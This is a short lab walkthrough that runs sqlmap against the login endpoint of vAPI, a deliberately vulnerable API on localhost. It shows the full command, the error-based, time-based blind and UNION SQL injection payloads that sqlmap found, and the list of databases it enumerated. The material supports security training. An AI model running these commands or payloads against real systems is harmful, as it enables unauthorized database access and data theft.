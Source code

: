 
Use SQLmap to test for SQL injection vulnerablities
```
sqlmap "http://localhost/vapi/api8/user/login" --data="username=test1&password=test2" -p username --dbs
```
- `-p` specifies 'username' as the vulnerable parameter
- `--dbs` dumps names of the available databases, if any
```
        ___
       __H__                                                                                                                                                                                                                                                                            
 ___ ___[']_____ ___ ___  {1.8.6.3#dev}                                                                                                                                                                                                                                                 
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                                                               
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:13:29 /2024-06-30/

[14:13:29] [INFO] resuming back-end DBMS 'mysql' 
[14:13:29] [INFO] testing connection to the target URL
[14:13:29] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=test1' AND GTID_SUBSET(CONCAT(0x716b6b6b71,(SELECT (ELT(6285=6285,1))),0x716a7a6a71),6285)-- UPWT&password=test2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test1' AND (SELECT 8597 FROM (SELECT(SLEEP(5)))bVMV)-- Fdoy&password=test2

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test1' UNION ALL SELECT NULL,CONCAT(0x716b6b6b71,0x67754b4c4f67766344637965545676576b666d4f7a4c634c5267467765614e5755436a6e55476c52,0x716a7a6a71)-- -&password=test2
---
[14:13:29] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.6
[14:13:29] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] vapi

[14:13:29] [WARNING] HTTP error codes detected during run:
```